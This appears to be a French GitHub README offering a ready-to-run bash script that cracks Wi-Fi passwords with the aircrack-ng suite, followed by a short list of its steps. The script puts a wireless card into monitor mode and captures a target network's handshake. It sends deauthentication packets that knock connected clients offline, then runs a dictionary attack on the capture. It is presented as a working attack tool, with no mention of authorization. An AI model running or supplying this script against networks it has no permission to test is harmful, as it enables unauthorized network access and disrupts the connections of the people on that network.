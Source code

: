 # Script_bash_crack_wifi

### Script simple

```bash
#!/bin/bash

echo "=== Activation du mode moniteur ==="
sudo airmon-ng check kill
sudo airmon-ng start wlan0

echo ""
echo "=== Scan des réseaux disponibles (Ctrl+C pour stopper) ==="
sleep 2
sudo airodump-ng wlan0mon

echo ""
read -p "Entrez le BSSID de la cible : " bssid
read -p "Entrez le canal (CH) : " channel
read -p "Nom du fichier de capture (sans extension) : " output

echo ""
echo "=== Capture ciblée du handshake ==="
sleep 2
sudo airodump-ng -c $channel --bssid $bssid -w $output wlan0mon &
AIRODUMP_PID=$!

sleep 5
read -p "Appuyez sur Entrée pour envoyer les paquets de désauthentification (Ctrl+C pour annuler)"
sudo aireplay-ng -0 10 -a $bssid wlan0mon

echo ""
read -p "Appuyez sur Entrée pour arrêter la capture"
kill $AIRODUMP_PID

echo ""
read -p "Entrez le chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) : " wordlist

echo ""
echo "=== Lancement du craquage avec Aircrack-ng ==="
sudo aircrack-ng -w $wordlist -b $bssid ${output}-01.cap

echo ""
echo "=== Script terminé. Bonne chance pour le crack ! ==="
```

`Ce qu’il fait :`

* Passe wlan0 en mode moniteur. 
* Lance airodump-ng pour détecter les réseaux.
* Demande le BSSID, canal et nom du fichier de capture.
* Lance la capture ciblée.
* Propose d’envoyer les paquets de désauthentification.
* Puis utilise Aircrack-ng avec le dictionnaire choisi.

### Interface utilisateur en texte (avec dialog)

